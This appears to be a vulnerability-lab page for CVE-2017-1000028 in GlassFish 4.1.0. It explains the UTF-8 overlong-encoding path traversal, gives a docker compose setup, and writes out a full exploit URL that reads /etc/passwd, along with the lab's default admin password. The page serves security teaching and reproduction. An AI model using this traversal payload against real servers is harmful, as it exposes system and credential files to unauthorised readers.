

GlassFish 4.1.0 Arbitrary File Read (CVE-2017-1000028)¶
GlassFish is an open-source application server for the Java EE platform. A vulnerability in GlassFish allows attackers to read arbitrary files through UTF-8 Overlong Encoding attack.
The vulnerability exists because GlassFish does not properly handle UTF-8 Overlong Encoding when decoding URLs. As a result, %c0%ae is decoded as the ASCII character . (dot). By using %c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/ in the URL, an attacker can traverse directories and read arbitrary files on the system.
References:
- https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904
- https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html
Environment Setup¶
Execute the following command to start a GlassFish server 4.1:
docker compose up -d
After the server starts, you can access GlassFish Admin Console on http://your-ip:4848.
Vulnerability Reproduction¶
Visit the following URL to read the contents of /etc/passwd:
https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd

Additional Notes¶
The super administrator password is set in docker-compose.yml, with a default value of vulhub_default_password. You can use this password to log in to the admin account on port 4848.